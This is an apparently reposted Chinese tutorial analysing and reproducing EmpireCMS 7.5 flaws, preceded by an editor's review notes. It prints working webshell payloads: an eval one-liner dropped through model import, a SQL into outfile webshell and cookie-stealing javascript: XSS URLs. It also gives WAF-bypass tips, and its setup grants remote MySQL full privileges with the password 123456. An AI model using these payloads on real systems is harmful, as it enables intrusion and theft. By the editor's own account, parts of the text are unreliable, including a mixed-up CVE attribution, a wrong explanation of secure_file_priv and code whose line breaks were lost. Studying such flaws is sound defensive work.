## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台模型/SQL权限及DB FILE/secure_file_priv；ehash或前台点击XSS

- **证据待核（1）**：与153同文核心/同图URL，本篇图更全；目录Web安全-EmpireCMS重复分类。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（2）**：同18086混贴备份表名漏洞、frontmatter漏19462、secure_file_priv解释错。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **实验改动边界（3）**：代码换行全丢使双斜杠注释吞正文，部分括号有多余转义；不可直接运行。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **来源与引用处置（4）**：同弱密码全局DB授权/500归WAF等不严谨建议，课程抽奖推广可剥离。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **适用与权限边界（5）**：前台是DOMXSS且需点击，缺默认关闭会员空间条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Web 安全 - EmpireCMS 漏洞常见漏洞分析及复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/MY__BqmTsWzFP6Pg6bKDrw)

前言
==

本文将对 EmpireCMS(帝国 cms) 的漏洞进行分析及复现。代码分析这一块主要还是借鉴了大佬们的一些分析思想，这里对大佬们提供的思路表示衷心的感谢。

环境搭建
====

帝国 cms 的默认安装路径为 http://localhost/e/install，进入安装一直往下



到连接数据库这一步，mysql 版本可以选择自动识别，也可以自己选择相应版本，这里数据库如果在本地就填写 localhost（127.0.0.1）。

这里也可以选择远程连接 vps 的服务器，但是前提是 vps 上的数据库开启了远程连接

首先找到`/etc/mysql/my.conf`

找到 bind-address = 127.0.0.1 这一行注释掉（此处没有也可以忽略）

然后新建一个 admin 用户允许远程登录并立即应用配置即可

```
grant all on *.* to admin@'%' identified by '123456' with grant option;flush privileges;
```



点击下一步就会自动在数据库生成一个 empirecms 的数据库并在其中建立许多个表



然后再设置进入后台管理员的密码



下一步即可安装完成，这里提示要删除路径避免被再次安装，但是这个地方其实设置了两层保护，即使你访问 install 这个路径会有一个. off 文件在路径下，需要将这个. off 文件删除后才能再次安装



输入设置的后台管理员用户名和密码即可进入管理员后台



漏洞原理及复现
=======

后台 getshell(CVE-2018-18086)
---------------------------

### 漏洞原理

EmpireCMS 7.5 版本及之前版本在后台备份数据库时, 未对数据库表名做验证, 通过修改数据库表名可以实现任意代码执行。

EmpireCMS7.5 版本中的 / e/class/moddofun.php 文件的”LoadInMod” 函数存在安全漏洞, 攻击者可利用该漏洞上传任意文件。

### 源码分析

主要漏洞代码位置

// 导入模型

```
//导入模型elseif($enews=="LoadInMod"){    $file=$_FILES['file']['tmp_name'];    $file_name=$_FILES['file']['name'];    $file_type=$_FILES['file']['type'];    $file_size=$_FILES['file']['size'];    LoadInMod($_POST,$file,$file_name,$file_type,$file_size,$logininid,$loginin);}
```

转到 LoadInMod 定义

在 localhost/EmpireCMS/e/class/moddofun.php 找到上传文件的定义

```
//上传文件    $path=ECMS_PATH."e/data/tmp/mod/uploadm".time().make_password(10).".php";    $cp=@move_uploaded_file($file,$path);    if(!$cp)    {        printerror("EmptyLoadInMod","");    }    DoChmodFile($path);    @include($path);    UpdateTbDefMod($tid,$tbname,$mid);
```

文件包含

上传文件处使用 time().makepassword(10) 进行加密文件名

```
//取得随机数function make_password($pw_length){    $low_ascii_bound=48;    $upper_ascii_bound=122;    $notuse=array(58,59,60,61,62,63,64,91,92,93,94,95,96);    while($i<$pw_length)    {        if(PHP_VERSION<'4.2.0')        {            mt_srand((double)microtime()*1000000);        }        mt_srand();        $randnum=mt_rand($low_ascii_bound,$upper_ascii_bound);        if(!in_array($randnum,$notuse))        {            $password1=$password1.chr($randnum);            $i++;        }    }    return $password1;}
```

下方代码 @include($path) 直接包含文件，因此可以通过添加创建文件的代码绕过。

### 漏洞复现

来到导入系统模型的页面



本地准备一个 1.php 并改名为 1.php.mod，注意这里需要用 \$ 进行转义，存放的数据表名需要填一个数据库内没有的表名，点击上传

```
<?php file_put_contents("getshell.php","<?php @eval(\$_POST[cmd]); ?>");?>
```



导入成功后访问一下生成 shell 看能不能访问得到，没有报错是可以访问到的，那么证明已经上传成功了



再用蚁剑连接即可



### 几个实战中遇到的坑

1. 有 waf 报错 500



500 很容易联想到禁止 web 流量，那么我们上传的一句话木马默认情况下是不进行加密的，所以很容易被 waf 识别并拦截。

解决方法：使用蚁剑自带的 base64 编码器和解密器即可成功上线，这里也可以用自己的编码器和解密器绕过 waf 拦截



2. 不能使用冰蝎、哥斯拉马

因为要在 $ 之前加 \ 转义，冰蝎转义后的 php.mod 应该如下图所示



上传到模型处就无回显



### 实战小技巧

如果有 waf 拦截 web 流量就走加密传输，如果始终连接不上就要一步步的进行排查。这里可以在一句话密码后面输出一个 echo 123，通过是否有回显来探测哪一步没有完善导致连接不成功



代码注入 (CVE-2018-19462)
---------------------

### 漏洞原理

EmpireCMS7.5 及之前版本中的 admindbDoSql.php 文件存在代码注入漏洞。

该漏洞源于外部输入数据构造代码段的过程中，网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段，修改网络系统或组件的预期的执行控制流。

主要漏洞代码位置

执行 sql 语句处



分析源码定位漏洞出现的位置在 localhost/EmpireCMS/e/admin/db/DoSql.php，对 sqltext 进行 RepSqlTbpre 函数处理

```
//运行SQL语句function ExecSql($id,$userid,$username){    global $empire,$dbtbpre;    $id=(int)$id;    if(empty($id))    {        printerror('EmptyExecSqlid','');    }    $r=$empire->fetch1("select sqltext from {$dbtbpre}enewssql where id='$id'");    if(!$r['sqltext'])    {        printerror('EmptyExecSqlid','');    }    $query=RepSqlTbpre($r['sqltext']);    DoRunQuery($query);    //操作日志    insert_dolog("query=".$query);    printerror("DoExecSqlSuccess","ListSql.php".hReturnEcmsHashStrHref2(1));}
```

转到定义 RepSqlTbpre，发现只对表的前缀做了替换

```
//替换表前缀function RepSqlTbpre($sql){    global $dbtbpre;    $sql=str_replace('[!db.pre!]',$dbtbpre,$sql);    return $sql;}
```

转到定义 DoRunQuery，对 $query 进行处理。

对 $sql 参数只做了去除空格、以; 分隔然后遍历, 没有做别的限制和过滤, 导致可以执行恶意的 sql 语句

```
//运行SQLfunction DoRunQuery($sql){    global $empire;    $sql=str_replace("\r","\n",$sql);    $ret=array();    $num=0;    foreach(explode(";\n",trim($sql)) as $query)    {        $queries=explode("\n",trim($query));        foreach($queries as $query)        {            $ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;        }        $num++;    }    unset($sql);    foreach($ret as $query)    {        $query=trim($query);        if($query)        {            $empire->query($query);        }    \}\}
```

### payload

用 select ... into outfile 语句写入 php 一句话木马，但是这里需要知道存放的绝对路径，这里可以使用一个 phpinfo() 用第一种方法传上去

```
<?php file_put_contents("getshell.php","<?php phpinfo();?>");?>
```



访问即可打出 phpinfo



这里只是找到了 php 的绝对路径，还不是 web 所存储的路径，这时候查看源代码搜索 DOCUMENT_ROOT 查询网站所处的绝对路径



用 select ... into outfile 语句写入 php 一句话木马

```
select '<?php @eval($_POST[LEOGG])?>' into outfile 'C:/phpStudy/PHPTutorial/WWW/EmpireCMS/e/admin/Get.php'
```



看到上传已经成功



访问一下是存在的



直接上蚁剑连接即可



### 实战中的一些坑

我们知道 secure_file_priv 这个参数在 mysql 的配置文件里起到的是能否写入的作用，当 secure_file_priv = 为空，则可以写入 sql 语句到数据库，当 secure_file_priv = NULL，则不可以往数据库里写 sql 语句，当 secure_file_priv = /xxx，一个指定目录的时候，就只能往这个指定的目录里面写东西

这个地方很明显报错就是限制数据库的导入跟导出，这里很明显判断 secure_file_priv = NULL，所以当实战中出现在这种情况下是不能够用这种方法的



如果在本地可以修改或添加 secure_file_priv = 这一行语句



后台 xss
------

### 原理分析

漏洞类型：反射型 xss

漏洞文件：localhost/EmpireCMS/e/admin/openpage/AdminPage.php

漏洞原理：该漏洞是由于代码只使用 htmlspecialchars 进行实体编码过滤，而且参数用的是 ENT_QUOTES(编码双引号和单引号), 还有 addslashes 函数处理，但是没有对任何恶意关键字进行过滤，从而导致攻击者使用别的关键字进行攻击

源码分析

主要漏洞代码位置 localhost/EmpireCMS/e/admin/openpage/AdminPage.php

```
$leftfile=hRepPostStr($_GET['leftfile'],1);$mainfile=hRepPostStr($_GET['mainfile'],1);
```

利用 hRepPostStr 函数进行过滤，跳转到该函数的定义如下

```
function hRepPostStr($val,$ecms=0,$phck=0){    if($phck==1)    {        CkPostStrCharYh($val);    }    if($ecms==1)    {        $val=ehtmlspecialchars($val,ENT_QUOTES);    }    CkPostStrChar($val);    $val=AddAddsData($val);    return $val;}
```

用 ehtmlspecialchars 函数进行 HTML 实体编码过滤，其中 ENT_QUOTES - 编码双引号和单引号。

```
function ehtmlspecialchars($val,$flags=ENT_COMPAT){    global $ecms_config;    if(PHP_VERSION>='5.4.0')    {        if($ecms_config['sets']['pagechar']=='utf-8')        {            $char='UTF-8';        }        else        {            $char='ISO-8859-1';        }        $val=htmlspecialchars($val,$flags,$char);    }    else    {        $val=htmlspecialchars($val,$flags);    }    return $val;}
```

要利用 htmlspecialchars 函数把字符转换为 HTML 实体

用 CkPostStrChar 函数对参数进行处理

```
function CkPostStrChar($val){    if(substr($val,-1)=="\\")    {        exit();    \}\}
```

获取字符末端第一个开始的字符串为 \\，则退出函数

用 AddAddsData 函数对参数进行处理

```
function AddAddsData($data){    if(!MAGIC_QUOTES_GPC)    {        $data=addslashes($data);    }    return $data;}
```

如果没有开启 MAGIC_QUOTES_GPC，则利用 addslashes 函数进行转义

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串

网页输出

然而输出的位置是在 iframe 标签的 src 里，这意味着之前的过滤都没有什么用。iframe 标签可以执行 js 代码，因此可以利用 javascript:alert(/xss/) 触发 xss



### payload

payload 如下：

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(/xss/)
```

其中 ehash 是随机生成的，在登录时可以看到 ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf，如果缺少这个 hash 值，则会提示非法来源



获取 cookie 信息 payload

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(document.cookie)
```



前台 xss
------

### 原理分析

漏洞类型：反射型 xss

漏洞文件：localhost/EmpireCMS/e/ViewImg/index.html

漏洞原理：url 地址经过 Request 函数处理之后, 把 url 地址中的参数和值部分直接拼接当作 a 标签的 href 属性的值和 img 标签的 src 标签的值

主要漏洞代码位置 localhost/upload/e/ViewImg/index.html

```
if(Request("url")!=0){    document.write("<a title=\"点击观看完整的图片...\" href=\""+Request("url")+"\" target=\"_blank\">screen.width-500)this.style.width=screen.width-500;\">");    }
```

通过 Request 函数获取地址栏的 url 参数, 并作为 img 和 a 标签的 src 属性和 href 属性, 然后经过 document.write 输出到页面。

转到 request 函数定义

```
function Request(sName){  /*   get last loc. of ?   right: find first loc. of sName   +2   retrieve value before next &    */    var sURL = new String(window.location);  var iQMark= sURL.lastIndexOf('?');  var iLensName=sName.length;    //retrieve loc. of sName  var iStart = sURL.indexOf('?' + sName +'=') //limitation 1  if (iStart==-1)        {//not found at start        iStart = sURL.indexOf('&' + sName +'=')//limitation 1        if (iStart==-1)           {//not found at end            return 0; //not found           }           }          iStart = iStart + + iLensName + 2;  var iTemp= sURL.indexOf('&',iStart); //next pair start  if (iTemp ==-1)        {//EOF        iTemp=sURL.length;        }    return sURL.slice(iStart,iTemp ) ;  sURL=null;//destroy String}
```

通过 window.location 获取当前 url 地址, 根据传入的 url 参数, 获取当前参数的起始位置和结束位置

### payload

url 地址经过 Request 函数处理之后, 然后把 url 地址中的参数和值部分直接拼接当作 a 标签的 href 属性的值和 img 标签的 src 标签的值

payload 如下：

```
http://localhost/upload/e/ViewImg/index.html?url=javascript:alert(document.cookie)
```

payload 解析：

当浏览器载入一个 Javascript URL 时，它会执行 URL 中所包含的 Javascript 代码，并且使用最后一个 Javascript 语句或表达式的值，转换为一个字符串，作为新载入的文档的内容显示。

javascript: 伪协议可以和 HTML 属性一起使用，该属性的值也应该是一个 URL。一个超链接的 href 属性就满足这种条件。当用户点击一个这样的链接，指定的 Javascript 代码就会执行。在这种情况下，Javascript URL 本质上是一个 onclick 事件句柄的替代。

点击图片触发 xss



得到网页 cookie




**推荐阅读：**

本月报名可以参加抽奖送 Kali NetHunter 手机的优惠活动  

[](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497897&idx=1&sn=5801b91d451b4c253eb3e2c5ff220673&chksm=ec1cad96db6b2480ce0be49a377819558c06b29603b812512b7cb52ca0c123bc444764f11502&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：ckin

未经授权，禁止转载


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
